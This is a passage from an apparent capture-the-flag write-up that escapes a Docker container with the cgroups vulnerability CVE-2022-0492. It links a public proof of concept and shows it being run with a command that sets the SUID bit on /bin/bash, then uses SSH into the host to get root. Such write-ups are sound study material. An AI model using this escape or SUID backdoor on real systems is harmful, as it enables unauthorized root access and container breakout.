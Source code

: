 ### CVE-2022-0492 -> Rooted!

Now that we are `root` on the Docker, let's try to find a way to escape this. When this box was published, there was a new Docker breakout technique related to `cgroups`. This is in-line with when the box was released.

There are some PoCs online to allow us to execute commands on the actual main machine:

{% embed url="https://github.com/chenaotian/CVE-2022-0492" %}

We can download and run this:

```
root@90c7f522b842:/tmp# ./exp.sh 'chmod u+s /bin/bash'
[-] You donot have CAP_SYS_ADMIN, will try
umount: /tmp/testcgroup: target is busy.
[+] Escape Success with unshare!
```

Afterwards, we can `ssh` back into the main machine and get a `root` shell easily:

<figure><img src="../../../.gitbook/assets/image (730).png" alt=""><figcaption></figcaption></figure>

Fun machine, really long though!
